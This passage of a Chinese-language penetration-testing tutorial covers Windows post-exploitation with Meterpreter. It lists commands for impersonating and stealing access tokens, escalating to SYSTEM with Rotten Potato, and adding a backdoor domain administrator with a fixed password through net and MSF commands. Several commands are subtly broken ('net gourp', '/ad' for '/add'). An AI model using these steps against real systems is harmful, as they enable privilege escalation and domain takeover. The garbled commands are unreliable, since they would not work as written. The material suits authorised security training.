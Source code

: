 然后列出可用令牌：

```ruby
list_tokens -u
```

令牌有两种：

* Delegation Tokens —— 授权令牌，支持交互式登录
* Impersonation Tokens —— 模拟令牌，支持非交互式会话

可以在incognito中模拟令牌，假冒用户：

```ruby
impersonate_token desktop-lqcon8a\\administrator
```

还可以直接窃取令牌：

```bash
steal_token [pid]
```

这个命令可以直接窃取对应PID的令牌，低权限无法向高权限进程窃取。

#### Rotten Potato本地提权

若目标系统存在有效的令牌，可以通过Rotten Potato程序快速模拟用户令牌实现权限提示。

[breenmachine/RottenPotatoNG: New version of RottenPotato as a C++ DLL and standalone C++ binary - no need for meterpreter or other tools. (github.com)](https://github.com/breenmachine/RottenPotatoNG)

下载编译后将程序上传到目标机器，使用：

```powershell
execute -HC -f rottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
```

#### 添加域管

假如网络设置了域管理进程，在Meterpreter中输入ps，查找进程，找到域管理进程，并使用Mirgrate迁移到该进程，随后使用：

```powershell
shell
net user shuteer xy@china110 /ad /domain
net gourp "domain admins" shuteer /ad /domain
net group "domain admins" /domain
```

如果一切顺利应该可以看到添加域管成功。

使用MSF来模拟域管也是可行的：

```powershell
add_user shuteer xy@china110 -h 1.1.1.2
add_group_user "Domain Admins" shuteer -h 1.1.1.2
```

后面的IP是域控的。

